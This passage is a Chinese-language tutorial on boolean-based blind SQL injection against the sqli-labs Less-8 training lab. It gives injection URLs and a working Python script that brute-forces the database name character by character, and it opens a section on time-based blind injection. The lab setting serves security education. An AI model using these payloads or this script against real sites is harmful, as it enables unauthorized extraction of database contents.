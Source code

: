 1. 获取数据库名的长度，遍历或用二分法爆破`http://192.168.154.135/sqli-labs-php7/Less-8/?id=1' and length(database())=n--+`种的n，当返回 true 的时候得到数据库的长度
2. 使用ascii、substr、database函数，利用二分法爆破数据库名称，如 `http://192.168.154.135/sqli-labs-php7/Less-8/?id=1' and ascii(substr(database(),  i, 1))=n--+` 种的第 i 个字符对应的 ascii 码为 n，那么对应的字符为 chr(n)

利用 python 脚本爆破数据库名如下： 

```python
import requests

url = "http://192.168.154.135/sqli-labs-php7/Less-8/"


def get_dblen(url):
    para = "?id=1' and length(database())=%d--+"
    url = url + para
    for i in range(20):
        rsp = requests.get(url % (i,))
        if "You are in" in rsp.content.decode("utf-8"):
            return i


def get_dbname(url):
    dblen = get_dblen(url)
    para = "?id=1' and ascii(substr(database(),  %d, 1))<%d--+"
    url = url + para
    dbname = []
    for i in range(1, dblen + 1):
        left = 0
        right = 256
        while True:
            if left == right or left  == (right - 1):
                dbname.append(chr(left))
                break
            rsp = requests.get(url % (i, (left + right) / 2))
            if "You are in" not in rsp.content.decode("utf-8"):
                left = int((left + right) / 2)
            else:
                right = int((left + right) / 2)
    return "".join(dbname)


if __name__ == "__main__":
    print(get_dbname(url))


```


## 时间盲注

在SQL注入过程中，无论注入是否成功，页面完全没有变化，无法通过页面判断是否存在注入，只能通过使用数据库的延时函数，根据执行返回的时长变化来判断是否存在注入。
